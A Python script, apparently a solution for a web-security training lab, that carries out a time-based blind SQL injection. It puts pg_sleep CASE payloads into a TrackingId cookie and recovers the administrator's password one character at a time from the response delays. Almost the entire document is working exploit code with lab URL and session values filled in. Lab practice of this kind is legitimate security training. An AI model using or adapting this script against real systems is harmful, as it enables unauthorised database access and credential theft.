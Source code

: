 

import requests
import time
import string

# === CONFIG from your lab ===
url = "https://0abb00980448d658817ee4980067001a.web-security-academy.net/"
tracking_id_base = "s9mi3qz6nmWXO5l2"
session_id = "WptKEubK0RUBFYumnwwOp9m7HU7NNikr"
delay_threshold = 8  # seconds to detect delay from pg_sleep(10)

charset = string.ascii_lowercase + string.digits
positions_to_test = list(range(1, 21))  # Test all 20 characters

cookie_template = (
    tracking_id_base +
    "%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,{pos},1)='{char}')+" +
    "THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--"
)

headers = {
    "User-Agent": "Mozilla/5.0"
}

password = {}

print("[*] Starting blind SQLi attack via nohup...\n")

for pos in positions_to_test:
    for char in charset:
        crafted_cookie = cookie_template.format(pos=pos, char=char)
        cookies = {
            "TrackingId": crafted_cookie,
            "session": session_id
        }

        start = time.time()
        requests.get(url, headers=headers, cookies=cookies)
        elapsed = time.time() - start

        if elapsed > delay_threshold:
            password[pos] = char
            print(f"[+] Position {pos}: {char}")
            break

# Build final password string
final_password = ['_'] * 20
for i in range(1, 21):
    final_password[i - 1] = password.get(i, '_')

print("\n✅ DONE! Final password:")
print("".join(final_password))
